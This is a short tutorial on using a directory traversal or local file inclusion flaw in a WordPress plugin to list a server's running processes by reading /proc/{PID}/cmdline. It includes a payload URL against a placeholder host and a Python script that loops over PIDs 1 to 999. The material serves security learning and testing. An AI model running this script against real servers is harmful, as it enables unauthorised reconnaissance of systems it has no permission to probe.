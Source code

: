 In addition to directly accessing critical system files, a Directory Traversal vulnerability can be utilized to enumerate active processes on the server via Process IDs (PIDs). This technique exploits the `/proc` directory, which is a special filesystem in Linux primarily used to access kernel information about processes.

## How Does PID Enumeration Work?

Using the LFI vulnerability, we can access the `cmdline` file located in `/proc/{PID}/cmdline`, which contains the command line used to start the process. This can reveal valuable information about the services running on the system and potentially entry points for deeper exploitations.

**Practical Example:**

Suppose we have a vulnerable server and want to check the commands each process is running. We can do this manually with the `ps` command to see the active processes:

```bash
ps
PID TTY  TIME CMD
402 pts/5 00:00:00 zsh
601 pts/5 00:00:00 nc
622 pts/5 00:00:00 ps
```

To investigate the process with PID 402, we would:

```bash
cat /proc/402/cmdline
```

The output would be something like `/proc/402/cmdline <BINARY>`, showing the command line that initiated the `zsh`.


So, if we input the payload `/proc/1/cmdline` (`http://host-vuln/wp-content/plugins/vulnerable-LFI-plugin/file.php?url=/proc/1/cmdline`) and receive an output like`/proc/1/cmdline/proc/1/cmdline/proc/1/cmdline/sbin/initautomatic-ubiqutynoprompt<script>window.close()</script>`, we can create a fuzzing script.

## Script for Automating the Exploitation

For more effective exploration, we can automate this process with a Python script. The following script attempts to read the `cmdline` of each process up to PID 1000:

```python
import requests

for i in range(1, 1000):
    r = requests.get(f"http://host-vuln/wp-content/plugins/vulnerable-LFI-plugin/file.php?url=/proc/{i}/cmdline")
    out = r.text.replace(f'/proc/{i}/cmdline', '').replace('<script>window.close()</script>', '').replace('\00', ' ')
    if len(out) > 1:
        print(f"PID {i} : {out}")
```
